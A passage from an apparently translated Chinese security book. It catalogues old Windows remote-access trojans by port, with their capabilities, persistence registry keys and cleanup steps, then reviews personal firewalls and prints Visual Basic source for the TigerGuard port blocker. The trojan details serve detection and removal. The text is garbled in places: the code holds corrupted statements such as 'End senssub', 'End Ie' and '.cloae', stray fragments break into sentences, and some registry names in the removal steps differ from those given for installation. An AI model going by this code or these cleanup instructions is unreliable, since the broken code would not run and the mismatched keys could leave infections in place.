**文件清除：** patch.exe

### 端口：2989

**服务：** *RAT*

**入侵者策略：** 这是一个极其危险的远程访问后门木马。RAT 旨在破坏硬盘驱动器。配置期间，使用以下注册表项：

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\Explorer=
"C:\WINDOWS\system\MSG SVR16.EXE"
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServices\Default=" "
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServices\Explorer=" "
```

**注册表清除：** HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\Explorer="C:\WINDOWS\system\MSG SVR16.EXE"

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices\Default=" "
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices\Explorer=" "
```

### 端口：3459–3801

**服务：** *Eclipse*

**入侵者策略：** 此木马本质上是一个隐形 FTP 守护程序。一旦执行，攻击者将拥有对所有文件的完全权限 FTP 访问权限，包括


 ing 文件执行、删除、读取和写入。在配置期间，会利用以下注册表项：

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\
Rnaapp="C:\WINDOWS\SYSTEM\rnaapp.exe"
```

**注册表删除：** HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\Rnaapp="C:\WINDOWS\SYSTEM (键: rnaapp)

**文件删除：** rnaapp.exe

### **端口: 3700, 9872-9875, 10067, 10167**

**服务:** *Portal of Doom*

**入侵者策略:** 这是另一款流行的远程控制木马，其功能包括：

- CD-ROM 控制
- 音频控制
- 文件浏览器
- 任务栏控制
- 桌面控制
- 键盘记录器
- 密码窃取
- 文件管理

**注册表删除:** HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices\ (键: String)

**文件删除:** ljsgz.exe, server.exe

### **端口: 4567**

**服务:** *File Nail*

**入侵者策略:** 另一款远程 ICQ 后门，File Nail 在 ICQ 社区中大肆破坏。

**文件删除:** server.exe

### **端口: 5000**

**服务:** *Bubbel*

**入侵者策略:** 这是又一款远程后门木马，与新木马 Cow 具有类似功能，包括：

- 消息发送
- 显示器控制
- 窗口控制
- 系统冻结
- 调制解调器控制
- 聊天
- 音频控制
- 键盘记录
- 打印
- 浏览器控制

**注册表删除:** HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices\ (键: Windows)

**文件删除:** bubbel.exe

*端口: 5001, 30303, 50505*

**服务:** Sockets de Troie

**入侵者策略:** Sockets de Troie 是一种病毒，它与远程管理后门一起传播自身。执行后，该病毒会显示一个简单的 DLL 错误，同时将自身复制到 Windows\System\ 目录下为 MSCHV32.EXE，并修改 Windows 注册表。在配置期间，通常会利用以下注册表项：

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunLoadMSchv32 Drv = C:\WINDOWS\SYSTEM\Mschv32.exe
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunLoad Mgadeskdll = C:\WINDOWS\SYSTEM\Mgadeskdll.exe
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunLoad Rsrcload = C:\WINDOWS\Rsrcload.exe
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesLoad Csmctrl32 = C:\WINDOWS\SYSTEM\Csmctrl32.exe
```

**注册表删除:** HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunLoadMSchv32 Drv =C:\WINDOWS\SYSTEM\MSchv32.exe

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunLoad Mgadeskdll = C:\WINDOWS\SYSTEM\Mgadeskdll.exe
```

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunLoad
  Rsrcload = C:\WINDOWS\Rsrcload.exe
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices
  Load Csmctrl32 = C:\WINDOWS\SYSTEM\Csmctrl32.exe
```

**文件删除:** mschv32.exe

### *端口: 5151*

**服务:** *Optix*

**入侵者策略:** 这是一个用 Borland Delphi 5 编译的远程访问木马，其功能包括：

- 重启系统
- 上传文件
- 列出运行中的进程
- 终止进程
- ICQ 通知

**默认安装:** 将自身复制到 %windir%\server.exe（可配置，示例中作为 win32svc.exe）并制作一份备份副本为 %windir%\tapisvc.sys（如果使用 winstart.bat 备份方法）*（仅限 Windows 95/98/ME）。

**默认注册表:** HKEY_LOCAL_MACHINE\Software\Microsoft\Windows \CurrentVersion\Run "RunProg"（可配置）。

**其他:** 隐身方法——将 server.exe（可配置）复制到 %WINDIR%\OLE-Files 并添加一个键到 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft \Active Setup\Installed Components。

**Winstart 备份:** 如果选中，将命令添加到 Windows 文件夹中的 winstart.bat。如果 Windows 启动时服务器文件不存在，则从 %WINDIR%\tapisvc.sys 创建一个副本并复制到启动文件夹；Windows 启动时，该文件将被执行。

**文件删除:** 删除所有 Backdoor.Optix 文件，包括 Winstar.bat。

### *端口: 5569*

**服务:** *Robo-Hack*

**入侵者策略:** Robo-Hack 是一款较旧的远程访问后门，用 Visual Basic 编写。该守护程序不会自我传播，也不会在系统重启后保持驻留。其有限的功能包括：

- 系统监控
- 文件编辑
- 系统重启/关机
- 消息发送
- 浏览器控制
- CD-ROM 控制

**文件删除:** robo-serv.exe

### 端口: 6400

**服务:** *The tHing*

**入侵者策略:** The tHing 是一个 nasty 的小型守护程序，旨在远程上传和执行程序。该守护程序的成名之处在于其传播病毒和其他远程控制器的能力。在配置期间，会利用以下注册表项：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\
  RunServices - Default
```

**注册表删除:** HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\ (键: Default)

**文件删除:** thing.exe

### 端口: 6912

**服务:** *Shit Heep*

**入侵者策略:** 这是一个相当常见的木马，试图伪装成你的回收站。感染后，系统回收站将被更新。该 Visual Basic 守护程序编译的有限功能模块包括：

- 桌面控制
- 鼠标控制
- 消息发送
- 窗口杀手
- CD-ROM 控制

**注册表删除:** HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices (键: recycle-bin)

**文件删除:** system.exe, update.exe

### 端口: 6969, 16969

**服务:** *Priority*

**入侵者策略:** Priority 是一款功能丰富的 Visual Basic 远程控制守护程序，包括：

- CD-ROM 控制
- 音频控制
- 文件浏览器
- 任务栏控制
- 桌面控制
- 键盘记录器
- 密码窃取
- 文件管理
- 应用程序控制
- 浏览器控制
- 系统关机/重启
- 音频控制
- 端口扫描

**注册表删除:** HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices (键: Pserver)

**文件删除:** pserver.exe

### *端口: 6970*

**服务:** *GateCrasher*

**入侵者策略:** GateCrasher 是另一款危险的远程控制守护程序，曾伪装为 Y2K 修复工具。最近，该守护程序被发现伪装为缓存清理工具。该软件几乎包含远程后门木马中的所有功能。在配置期间，会利用以下注册表项：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\
RunServices - Inet
```

**注册表删除:** HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices (键: Inet)

**文件删除:** system.exe

### *端口: 7000*

**服务:** *Remote Grab*

**入侵者策略:** 该守护程序充当屏幕抓取器，设计用于远程监视。在配置期间，会复制以下文件：

```
\Windows\System\mprexe.exe
```

**文件删除:** mprexe.exe

### *端口: 7597*

**服务:** *RAT.QAZ, W32.QAZ.Worm, HLLW.QAZ, QAZ Trojan*

**入侵者策略:** 这是一款用 MS Visual C++ 编译的远程访问守护程序，通过本地共享传播以收集信息。在配置期间，会执行以下参数：

```
qazwsx.hsq
```

**注册表删除:** HKLM\Software\Microsoft\Windows\CurrentVersion\Run
"StartIE"="C:\WINDOWS\NOTEPAD.EXE qazwsx.hsq"

**文件删除:** notepad.exe（然后将 note.exe 重命名为 notepad.exe）

### *端口: 9400*

**服务:** *InCommand*

**入侵者策略:** 该守护程序是基于原始 Sub7 系列设计的，包含一个可预先配置的服务器模块。

**文件删除:** olemon32.exe

### *端口: 10101*

**服务:** *BrainSpy*

**入侵者策略:** 这款远程控制木马具有与大多数典型文件控制守护程序类似的功能。然而，执行后，该程序能够删除所有病毒扫描文件。在配置期间，会利用以下注册表项：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\
  RunServices - Dualji
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\
  RunServices - Gbuzhnw
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\
  RunServices - Fexhqcex
```

**注册表删除:** HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices – Dualji


 ```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\
RunServices - Gbubuzhnw
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\
RunServices - Fexhqgcux
```

**文件删除：** brainspy.exe

### 端口：10520

**服务：** *Acid Shivers*

**入侵者策略：** 该远程控制木马基于 telnet 服务执行命令，并且能够在目标系统活跃时向攻击者发送电子邮件警报。

**文件删除：** en-cid12.exe, en-cid12.dat

### 端口：10607

**服务：** *Coma*

**入侵者策略：** 这是另一个用 Visual Basic 编写的远程控制后门。其有限的功能包括捕获、FTP 和发送文本。

**注册表删除：** HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run (键: RunTime)

**文件删除：** msgsrv36.exe, server.exe

### 端口：12223

**服务：** *Hack'99 KeyLogger*

**入侵者策略：** 该守护进程作为标准键盘记录器运行，但有一点不同：它能够实时向攻击者发送目标系统的按键记录。

**注册表删除：** HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServices (键: HkeyLog)

**文件删除：** HKeyLog.exe

### 端口：12345-12346

**服务：** *NetBus/2/Pro*

**入侵者策略：** 臭名昭著的远程管理和监控工具 NetBus，现由 UltraAccess.net 所有，目前包含 telnet、http 和与服务器的实时聊天功能。更多详情请访问 www.UltraAccess.net。

```
注册表删除: HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\
Windows\CurrentVersion\Runservices (键: Netbus)
文件删除: sysedit.exe, patch.exe
```

### 端口：18000

**服务：** Service Pro

**入侵者策略：** 这是又一个远程后门木马，其功能包括：

- 删除文件
- 运行程序
- 隐形运行程序
- 关闭受害者电脑
- 重启受害者电脑
- 注销 Windows
- 关机

在配置期间，将利用以下注册表项：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\
Run – Srvcpro
```

注册表删除：HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\ CurrentVersion \Run — Srvcpro

文件删除：srvc32.exe

### 端口：20000–20001

**服务：** Millennium

**入侵者策略：** Millennium 是另一个非常简单的 Visual Basic 木马，具有远程控制功能，最近更新后包含：

- CD-ROM 控制
- 音频控制
- 文件资源管理器
- 任务栏控制
- 桌面控制
- 键盘记录器
- 密码获取
- 文件管理
- 应用程序控制
- 浏览器控制
- 系统关机/重启
- 音频控制
- 端口扫描

在配置期间，将利用以下注册表项：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\
RunServices - millennium
```

**注册表删除：** HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices (键: millennium)

**文件删除：** hool.exe

### 端口：21544

**服务：** *GirlFriend*

**入侵者策略：** 这是另一个非常常见的远程密码获取木马。最近的编译版本包含消息传递和 FTP 文件访问功能。在配置期间，将利用以下注册表项：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\
RunServices - Windll.exe
```

**注册表删除：** HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices (键: windll)

**文件删除：** windll.exe

### 端口：22222, 33333

**服务：** *Prosiak*

**入侵者策略：** 一个常见的远程控制木马，标准功能包括：

- CD-ROM 控制
- 音频控制
- 文件资源管理器
- 任务栏控制
- 桌面控制
- 键盘记录器
- 密码获取
- 文件管理
- 应用程序控制
- 浏览器控制
- 系统关机/重启
- 音频控制
- 端口扫描

在配置期间，将利用以下注册表项：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\
RunServices - Microsoft DLL Loader
```

**注册表删除：** HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices (键: Microsoft DLL Loader)

**文件删除：** windll32.exe, prosiak.exe

### 端口：30029

**服务：** *AOL Trojan*

**入侵者策略：** AOL 木马感染 DOS .EXE 文件。该木马可以通过本地局域网、广域网、互联网或电子邮件传播。程序执行时，会立即感染其他程序。

**注册表删除：** HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run (键: dat92003)

**文件删除：** dat92003.exe

### 端口：30100–30102

**服务：** *NetSphere*

**入侵者策略：** 这是一个功能强大且极其危险的远程控制木马，具有以下功能：

- 屏幕捕获
- 消息传递
- 文件资源管理器
- 任务栏控制
- 桌面控制
- 聊天
- 文件管理
- 应用程序控制
- 鼠标控制
- 系统关机/重启
- 音频控制
- 完整系统信息

在配置期间，将利用以下注册表项：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\
RunServices - nssx
```

**注册表删除：** HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices (键: nssx)

**文件删除：** nssx.exe

### 端口：1349, 31337–31338, 54320–54321

**服务：** *Back Orifice*

**入侵者策略：** 这是臭名昭著且极其危险的 Back Orifice 守护进程，其全球分发激发了许多 Windows 木马的开发。该软件的独特之处在于其通信过程使用加密 UDP 数据包替代 TCP，使其更难以检测。此外，该守护进程还支持插件以包含更多功能。在配置期间，将利用以下注册表项：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\
RunServices - bo
```

**注册表删除：** HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices (键: bo)

### 端口：31785–31792

**服务：** *Hack'a'Tack*

**入侵者策略：** 这是又一个声名狼藉且广泛分布的远程控制守护进程。Hack'a'Tack 包含所有典型功能。在配置期间，将利用以下注册表项：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\
RunServices - Explorer32
```

**注册表删除：** HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices (键: Explorer32)

**文件删除：** expl32.exe

### 端口：33911

**服务：** *Spirit*

**入侵者策略：** 这个臭名昭著的远程后门守护进程包含一个非常独特的破坏性功能——*显示器烧毁*。它不断重置屏幕分辨率，有传言称更新版本还会更改刷新率。在配置期间，将利用以下注册表项：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\
RunServices - SystemTray = "c:\windows\windown.exe "
```

**注册表删除：** HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices (键: SystemTray)

**文件删除：** windown.exe

### 端口：35000

**服务：** *Infector*

**入侵者策略：** 这是一个用 Borland Delphi 5 编译的远程访问木马，功能包括：

- 关闭服务器
- 移除服务器
- 更改端口
- 更改密码
- 重启系统
- 关闭系统电源
- 关闭系统
- 注销用户
- 强制重启
- ICQ 通知

**默认安装：** 将自身复制到 %windir%\Apxil32.exe（可配置）并制作备份副本为 %windir%\D3x32.drv。

**默认自启动：** 修改 WIN.INI 文件 - run=apxil32.exe apxil32.exe。

**其他自启动：** SYSTEM.INI - Shell=explorer.exe apxil32.exe

**注册表：** HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run:apxil32 = apxil32.exe

**注册表：** HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices:apxil32 = apxil32.exe

**注册表删除：** 将 system.ini 中 [boot] 下的 shell=Explorer.exe FC32.exe 更改为 shell=Explorer.exe。

**文件删除：** Windows 目录中的 d3x.drv、FC32.exe、apxil32.exe 和 setup.int。

### 端口：40412

**服务：** *The Spy*

**入侵者策略：** 该守护进程被设计为一个有限的键盘记录器。The Spy 仅实时捕获按键，因此不会在离线时保存记录的按键。在配置期间，将利用以下注册表项：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\
RunServices - systray
```

**注册表删除：** HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices (键: systray)

**文件删除：** systray.exe

### 端口：47262

**服务：** *Delta Source*

**入侵者策略：** 该守护进程受 Back Orifice (BO) 启发，用 Visual Basic 设计而成。因此，Delta Source 保留了与 BO 相同的功能。在配置期间，将利用以下注册表项：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\
RunServices - Ds admin tool
```


## 注册表清除
**注册表清除：** HKEY_LOCAL_MACHINE\\Software\\Microsoft\\Windows\\CurrentVersion\\RunServices（键值：Ds admin tool）

### *端口：65000*

**服务：** *Devil*

**入侵者的策略：** Devil 是一个较早的法国 Visual Basic 远程控制守护程序，目标工作站重启后不会保持活动状态。其有限的功能包括消息发送、系统重启、CD-ROM 控制以及应用终止程序。

**文件清除：** opscript.exe、winamp34.exe、wingenocid.exe、icqflood.exe

## 端口监视器与拦截器

从根本上讲，端口监视器与拦截器充当小型系统防火墙。不过，不要误解这个术语；"小型"并不意味着它们的防护能力低于完整的防火墙系统（尽管实际上它们的防护效果确实不如后者），更多的是指它们是个人终端系统的防御机制。这些小型系统防火墙是系统安全的未来，而你正处于最佳观察位置。根据定义，防火墙旨在作为网络之间的保护中介，保护其中一方免受未经授权的访问。然而，如今它们提供的安全性已远远不够。

如今网络中的系统，以及个人 PC 上的系统，都包含有价值的信息，这些信息足以吸引黑客、破解者和网络朋克。外围防火墙可能提供了安全的基础，但要考虑对黑客攻击进行防火墙防护。更糟糕的是，要考虑恶意的内部或本地攻击。简而言之，防火墙只是个开始。我们需要在身后关上门，保护内部安全，直至 PC 层面。

为此，在本节中，我们将介绍最流行的端口监视器和拦截器——受欢迎并非基于销量或可用性，而是基于所提供的系统安全级别。这些实用工具通过监视和/或拦截未经邀请的端口通信来保护系统。根据设计，它们通常通过网络接口卡（NIC）等物理接口，或拨号连接等虚拟接口来运行。首先我们将评估这些个人保护工具，然后探讨一些自定义技术。

🐅 **老虎提示** 本节介绍的每个软件包都提供其独特的方法论；因此，最好选择最合适的，并且可以进一步定制的软件。

**图 2.13** BlackICE 拦截本地黑客攻击。

### BlackICE Defender

Network ICE（www.networkice.com）的 BlackICE Defender 是一款反黑客系统，通过 DSL、电缆调制解调器或模拟调制解调器监控您的 PC，以 alert 防范黑客攻击。当检测到入侵时，防御者会自动发出警报并阻止来自该源的流量（见图 2.13）。

该机制可配置：如果入侵来自可信源，则通信不会被阻止（见图 2.14）。此功能的一个潜在盲点是伪装攻击，冒充可信源。在这种情况下，端口拦截可能是适当的附加功能。BlackICE 的其他弱点包括应用级非过滤、操作漏洞以及缺乏策略控制。

总体而言，BlackICE Defender 运行相当不错，提供攻击报告和历史记录（见图 2.15）。内置的追踪机制以黑客的 IP 地址、DNS、MAC 地址和数据的形式收集攻击证据，所有这些都会发送到您的计算机。入侵根据严重等级进行评级。例如，评级为 59 或更低的攻击通常表示发现阶段的探测或扫描；评级高于 59 的攻击更可能表明是经验丰富的黑客实施的渗透攻击。

Network ICE 还提供名为 ICEpaq Security Suite 的产品，为网络保护提供企业级安全，包括 VPN 访问。ICEpaq 包含用于安装在单独服务器上的模块，以及集中式管理。

**图 2.14** 自定义 BlackICE Defender。

**图 2.15** BlackICE 入侵尝试报告。

**图 2.16** LockDown 2000 图形用户界面。

Network ICE 的产品对小型企业以及中大型 Enterprise 网络来说都很有前景。

### LockDown 2000

LockDown 2000（www.lockdown2000.com）是一款系统保护程序，包含木马扫描器，并监控 ICQ 和 Nuke 攻击（见图 2.16）。它还能够清除大量有害木马并恢复系统稳定性。此外，该软件监控系统共享。最近，该软件套件获得了许多好评。

### Norton Internet Security 2002

Norton Internet Security（www.norton.com）提供一流的黑客攻击防护。基于此前可用的内核，该套件包括针对远程攻击的保护，如 DoS 骚扰、病毒、恶意 ActiveX 控件和破坏性 Java 等。Norton Internet Security 还包含新的自动 LiveUpdate 技术，在您在线时检查并下载新的病毒定义。此外，您可以通过防御

**图 2.17** 为高级用户配置 Norton Internet Security。

cookie 传输来保护个人信息，从而自定义传输控制。凭借所有这些功能，该套件被评为顶级安全系统之一。

尽管管理界面包含许多您期望的高级功能，但对初学者来说可能令人困惑（见图 2.17）。开发人员已尝试通过自动防火墙配置技术来解决这个问题，但如果不小心，您也可能会中断标准的可信通信。据报道，安装完整套件后可能会出现操作系统稳定性问题；例如，只能通过卸载套件解决的通用"不稳定"功能。然而，这个问题可能与兼容性问题有关，涉及将 Norton Internet Security 与其他个人防火墙耦合使用。

### ZoneAlarm Pro

Zone Labs（www.zonelabs.com）的 ZoneAlarm Pro 是另一款流行的个人防火墙守护程序，适用于拨号、DSL 和电缆接入等。该产品在阻止未经授权的访问方面表现出色——甚至包括隐形技术。您可以轻松创建自定义安全策略，在信任本地共享的同时阻止 Internet 访问，所有操作都来自简单的配置界面（见图 2.18）。该公司还为家用 PC 提供免费的 ZoneAlarm 标准防护软件。据 Zone Labs 称，该产品的全新功能包括：

- 密码保护，防止安全设置被篡改。
- 一键配置 Internet 连接共享/网络地址转换。
- 专家实用工具，使企业用户能够为 ZoneAlarm Pro 量身定制以满足其特定安全rique安全需求。
- 限制区域，阻止运行端口扫描的 IP 地址。

**图 2.18** 通过简单的图形用户界面操作 ZoneAlarm。

- 自定义警报和日志控制，用于实时通知和编目入侵尝试。
- 高级应用程序控制，以控制应用程序的 Internet 使用情况。
- 高级 MailSafe 电子邮件附件保护，识别并阻止 37 种可疑文件类型。

### 其他软件包

为了获得各种定制和支持能力与功能，其他一些值得关注的出色防火墙套件包括：

- *Sygate Personal Firewall* (www.sybergen.com/products/shield_ov.htm)
- *Tiny Personal Firewall* (new.tinysoftware.com)
- *McAfee Firewall* (www.mcafee.com)
- *ConSeal PC Firewall* (www.candc1.com/conseal/index.htm)
- *DeerField Personal Firewall* (dpf.deerfield.com/)
- *HackTracer* (www.sharptechnology.com/bh-cons.htm)
- *Look'n'Stop* (www.looknstop.com/En/decouvrir.htm)
- *NeoWatch 2.0* (www.neoworx.com/products/neowatch)
- *PC Viper* (www.pcviper.com/)
- *Preventon* (www.preventon.com/)
- *PrivateFirewall* (www.privacyware.com/features.html)
- *Sphinx* (shop2.sphinxwall.com/)
- *TermiNet* (www.gis-secure.com/)
- *Windows XP Internet Connection Firewall* (www.microsoft.com/windowsxp/pro/using/howto/networking/icf.asp；本书稍后介绍这款流行的新防火墙）。

### *免费 TigerGuard*

如前所述，那些喜欢免费自定义端口保护的企业和/或私人 Windows 用户可以使用本书附赠 CD 中的 TigerGuard。TigerGuard 消除了端口安全的神秘感。它的设计基于一个简单的理念：如果端口正在使用中并受到保护，它就无法被利用。使用 TigerGuard，您可以创建、加载和保存自定义策略列表。在当前编译版本中，该守护程序根据您创建的策略记录、拦截和发送远程黑客攻击警报。

首先，您可以预加载标准和默认策略列表。默认情况下，TigerGuard 最多接受 500 条自定义策略。还有一个配套


入侵嗅探器（Intrusion Sniffer）和端口会话嗅探器（Port Session Sniffer），借助它们，您可以秘密捕获传入的 TCP 或 UDP 入侵信息（见图 2.19）。（注意：为避免管辖权冲突，请在使用任一嗅探器收集入侵证据之前，务必先从 TigerGuard 中释放端口控制。就实际用途而言，入侵嗅探器捕获每个攻击者的所有流量，而端口会话嗅探器则记录来自多个攻击者的所有流量。）

> 在 Neil Ramsbottom 和 Mike Down 的早期输入帮助下，我为您汇编了 TigerGuard 自定义端口阻止器，供您酌情使用。在本书的后面部分，我们将介绍 TigerWatch，这是一款端口监视器，与 TigerSurf 配合使用时可提供完整的系统保护，并且随本书免费附赠。总之，TigerGuard 允许您将每个端口添加到保护策略中，TigerWatch 则防范最常见的远程木马和病毒漏洞，并提供自定义配置选项以添加您自己的策略。

请注意，TigerGuard 的设计初衷并非单独使用，而需要与上述个人防火墙系统配合使用。它是作为一种额外的安全措施而设计的，以确保系统免受欺骗性、本地或远程黑客攻击的锁定。目前，该程序提供 50 到 60 个自定义策略，足以促进您的黑客攻击调查。策略列表保存为 *name.lst*，首选项存储在 *TigerGuard.ini* 中。

## TigerGuard

```
' Main Form
Dim DaemonPort As String
Dim RxData As String
Dim RMN As String
Dim RIP As String

Private Sub cmdAddPort_Click()
If lvwPortInfo.ListItems.Count >= MAX_PORTS Then
    MsgBox "You can only add " & MAX_PORTS & " policies!",
    vbExclamation, "Error!"
End If
    frmPolicy.Show 1
End senssub

Private Sub Command1_Click()
frmSniffer.Show
End Sub

Private Sub mnuAddPolicy_Click()
If lvwPortInfo.ListItems.Count >= MAX_PORTS Then
    MsgBox "You can only add " & MAX_PORTS & " policies!",
    vbExclamation, "Error!"
End If
    frmPolicy.Show 1
End Sub

Private Sub cmdRemove_Click()
If lvwPortInfo.ListItems.Count <> 0 Then
    lvwPortInfo.ListItems.Remove (lvwPortInfo.SelectedItem.Index)
End If
End Sub

Private Sub mnuRemovePolicy_Click()
If lvwPortInfo.ListItems.Count <> 0 Then
    lvwPortInfo.ListItems.Remove (lvwPortInfo.SelectedItem.Index)
End If
End Sub

Private Sub Form_Load()
If DOESINIEXIST = False Then
    MsgBox "The TigerGuard.INI file is missing. Please reload the
    application.", vbExclamation, "Error"
    Unload Me
    End
End If
LoadINISettings
RefreshDisplay
End Sub
```

```
Public Sub RefreshDisplay()
lblMaxPorts = "Maximum Policies Allowed: " & MAX_PORTS
With lvwPortInfo
    .ColumnHeaders(1).Width = 2000
    .ColumnHeaders(2).Width = 700
    .ColumnHeaders(3).Width = 1400
    .ColumnHeaders(5).Width = 1700
    .ColumnHeaders(6).Width = 800
End With
End Sub
```

```
Private Sub Form_QueryUnload(Cancel As Integer, UnloadMode As Integer)
If UnloadMode = 0 Then
End If
End Sub
```

```
Private Sub Form_Unload(Cancel As Integer)
If lvwPortInfo.ListItems.Count = 0 Then
Else
For i = 1 To lvwPortInfo.ListItems.Count
    If lvwPortInfo.ListItems(i).Checked = True Then
        sckData(i).Close
        Unload sckData(i)
    End If
Next i
End If
End Sub
```

```
Private Sub lvwPortInfo_Click()
    Dim intCurrIndex As Integer
    If lvwPortInfo.ListItems.Count = 0 Then Exit Sub
    intCurrIndex = lvwPortInfo.SelectedItem.Index + 1
End Sub
```

```
Private Sub lvwPortInfo_ItemCheck(ByVal Item As MSComctlLib.ListItem)
    Dim intCurrIndex As Integer
    intCurrIndex = Item.Index
    If Item.Checked = True Then
        Load sckData(intCurrIndex)
        sckData(intCurrIndex).LocalPort = Item.SubItems(1)
        On Error GoTo err
        sckData(intCurrIndex).listen
        Item.SubItems(3) = "Enabled"
    Else
        sckData(intCurrIndex).Close
        Unload sckData(intCurrIndex)
        Item.SubItems(3) = "Disabled"
    End If
    Exit Sub
err:
    lvwPortInfo.ListItems(intCurrIndex).SubItems(3) = "(" & err.Number & ") Error!"
    lvwPortInfo.ListItems(intCurrIndex).Checked = False
    sckData(intCurrIndex).cloae
    Unload sckData(intCurrIndex)
End Sub

Private Sub mnuAboutDownload_Click()
ShellExecute Me.hwnd, "open", UPDATE_ADDRESS, "", "", 1
End Sub

Private Sub mnuAboutWebsite_Click()
ShellExecute Me.hwnd, "open", WEBSITE_ADDRESS, "", "", 1
End Sub

Private Sub mnuFileExit_Click()
Unload Me
End
End Sub

Private Sub mnuFileLoadList_Click()
Dim CDLG As New CommonDialog
Dim strFilename As String
CDLG.Filter = "Policy List Files (*.lst)|*.lst" & Chr(0)
strFilename = CDLG.GetFileOpenName
If Trim(strFilename) = Chr(0) Then Exit Sub
LoadPortList strFilename
ValidateList
End Sub

Sub ValidateList()
Dim strTmpText1 As String
Dim strTmpText2 As String
If lvwPortInfo.ListItems.Count <> 0 Then
    If lvwPortInfo.ListItems.Count >= MAX_PORTS Then
        GoTo bad_list
    Else
        For i = 1 To lvwPortInfo.ListItems.Count
            strTmpText1 = lvwPortInfo.ListItems(i).SubItems(1)
            For x = i + 1 To lvwPortInfo.ListItems.Count
                If lvwPortInfo.ListItems(x).SubItems(1) = strTmpText1 Then
                    GoTo bad_list
                End If
            Next x
        Next i
    End If
End Ie
Exit Sub
bad_list:
    MsgBox "Policy List Corruption." & CR & CR & "This file cannot be
loaded!", vbExclamation, "Error!"
    lvwPortInfo.ListItems.Cloar
End Sub

Private Sub mnuFileOptions_Click()
frmNotify.Show 1
End Sub

Private Sub mnuFileSaveList_Click()
If lvwPortInfo.ListItems.Count <> 0 Then
    Dim CDLG As New CommonDialog
    Dim strFilename As String
    CDLG.Filter = "Policy List Files (*.lst)|*.lst" & Chr(0)
    strFilename = CDLG.GetFileSaveName
    If Trim(strFilename) = Chr(0) Then Exit Sub
    If Right(strFilename, 4) <> ".lst" Then
        strFilename = strFilename & ".lst"
    End If
    SavePortList strFilename
End If
End Sub

Sub SavePortList(strFilename As String)
Dim TmpVal As PORTENTRY
If Dir(strFilename) <> "" Then
    If MsgBox("Overwrite " & strFilename & "?", 
```


 ```
listen:
sckData(intIndex).Close
On Error GoTo err
sckData(intIndex).listen
lvwPortInfo.ListItems(intIndex).SubItems(3) = "Enabled"
Exit Sub
err:
    lvwPortInfo.ListItems(intIndex).SubItems(3) = "Error!"
    lvwPortInfo.ListItems(intIndex).Checked = False
End Sub
```

```
Private Sub lstn_Click()
Wsk.Close
DaemonPort = InputBox$("Please enter the Port to monitor:")
